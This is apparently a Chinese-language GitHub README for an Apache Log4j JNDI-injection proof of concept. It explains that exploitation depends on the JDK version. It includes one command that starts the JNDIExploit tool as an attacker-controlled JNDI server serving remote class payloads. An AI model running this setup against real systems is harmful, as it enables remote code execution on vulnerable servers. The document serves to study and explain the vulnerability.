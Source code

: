 # apache_log4j_poc
apache log4j poc—— base Maven

使用[JNDIExploit](https://github.com/feihong-cs/JNDIExploit)开启jndi服务器：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.171.1 -l 12344 -p 9999 
```
![image](https://user-images.githubusercontent.com/49781523/145537707-1885a6f1-b51e-4f8a-a14d-701669568193.png)


![image](https://user-images.githubusercontent.com/49781523/145537663-a1e1d368-d726-4a07-8453-158454ce1c45.png)


参考文章：[https://www.codenong.com/f23e29b783ff38df36c9/](https://www.codenong.com/f23e29b783ff38df36c9/)

## 总结
[JNDI注入原理及利用](https://xz.aliyun.com/t/6633#toc-7)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3a4e7244ac8545279e15fef220f64d21.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)


```
JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。
```
这个漏洞的利用跟JDK中的配置有很大关系，换句话说跟jdk版本关系很大。
只要JDK版本无漏洞，那么apache log4j的这个RCE就很难利用成功。

